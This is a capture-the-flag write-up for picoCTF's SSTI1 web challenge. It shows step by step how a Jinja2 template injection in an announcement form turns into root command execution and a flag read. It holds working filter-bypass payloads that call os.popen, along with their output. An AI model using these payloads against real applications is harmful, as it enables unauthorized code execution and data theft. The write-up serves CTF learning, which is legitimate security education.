







>> picoCTF — SSTI1 (Server-Side Template Injection) Writeup

**Challenge:** SSTI1 — Server-Side Template Injection  

**Category:** Web — SSTI / Template Injection 

**Author:** NIGHTFURY0X01 (Arash)

**Level:** Medium

---

## Description
> I made a cool website where you can announce whatever you want! Try it out!  
> Additional details will be available after launching your challenge instance.

The application provides a simple announcement form (an input named `content`) that reflects the submitted text back to the page. I interacted with the site through the web UI (entered payloads into the form and submitted) to confirm SSTI and to escalate to command execution.

> **Warning:** The techniques below are for CTF/educational purposes only. Do not use them on systems without explicit authorization.

---

## Summary
By submitting specially crafted template expressions in the announcement form, the server evaluated Jinja2/Python expressions. Starting from a basic arithmetic test, I used introspection to access Python globals and `os.popen`, enumerated the application directory, and read the `flag` file. All interaction was done using the website form (no `curl`).

---

## Tools
- Web browser (to submit payloads via the provided form).  
- Optional: local text editor to compose payloads before copying into the form.

---

## Steps — Browser interaction (what I did)

### 1. Open the challenge page
I loaded the challenge instance in my browser and located the announcement form:


```html
<form action="/" method="POST">
  What do you want to announce: <input name="content" id="announce">
  <button type="submit"> Ok </button>
</form>

```


+ The form posts content to / and reflects the announcement back to the page.

### 2. Confirm SSTI with a simple arithmetic test

+ I entered the payload into the input field:

```bash
{{7*7}}
```


+ Then I submitted the form. The page returned and showed:
```bash
49
```


+ This confirmed the server is evaluating template expressions (SSTI).

### 3. Escalate to command execution via Python builtins

+ To import modules and run shell commands, I used Python introspection through the request object available in the template context. I entered:

```jinja2
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
```


+ After submitting the form, the page reflected:

```text
uid=0(root) gid=0(root) groups=0(root)
```



+ This shows the process is running as root, and that os.popen() is usable to execute shell commands.


### 4. Enumerate files in the working directory

+ Next, I listed files by submitting:

```jinja2
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('ls')|attr('read')()}}
```


+ The page returned:

```text
__pycache__
app.py
flag
requirements.txt
```



+ This confirmed a flag file exists in the application directory.


### 5. Read the flag file

+ Finally, I retrieved the flag by submitting:

```jinja2
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat flag')|attr('read')()}}
```



+ The page returned the flag:
```bash
picoCTF{sst1_f1lt3r_byp4ss_6787c4d8}
```


## Final Flag:
```bash
picoCTF{sst1_f1lt3r_byp4ss_6787c4d8}
```

## Technical Note: Why the Long Payload?
+ The payload used in this challenge:
```jinja2
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
```

## Reasons for using this format:

+ `\x5f` is hexadecimal encoding for the `_ `character, used to bypass potential security filters

+ Using the `attr` filter instead of dots `(.)` for attribute access

+ This method is more resistant to simple WAFs and security filters


---
## Analysis & Notes

+ The content field was rendered inside a server-side template and evaluated as a Jinja2/Python expression — classic SSTI.

+ Using `request.application.__globals__.__builtins__.__import__('os')` allowed importing os from within the template sandbox (when direct import is unavailable). From there `os.popen()` executed shell commands.

+ The server process was running as root, which made reading local files trivial. In production systems, running app processes as root is insecure.

+ Important: all actions above were performed by typing payloads into the web form and submitting — no CLI tooling was required.

